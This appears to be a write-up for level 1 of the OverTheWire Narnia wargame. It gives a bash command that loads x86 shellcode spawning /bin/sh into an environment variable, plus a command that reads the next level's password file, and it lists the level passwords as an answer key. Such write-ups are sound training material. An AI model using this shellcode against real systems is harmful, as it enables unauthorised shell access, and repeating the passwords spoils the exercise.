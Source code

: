 ### Narnia Level 1

[narnia1](http://overthewire.org/wargames/narnia/narnia1.html)

**Username**: *narnia1*

**Password**: *efeidiedae*

#### Solution

* http://shell-storm.org/shellcode/files/shellcode-811.php

```bash
export EGG=$(python -c'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"')
cat /etc/narnia_pass/narnia2
```

#### Credentials for Level 2

**Username**: *narnia2*

**Password**: *nairiepecu*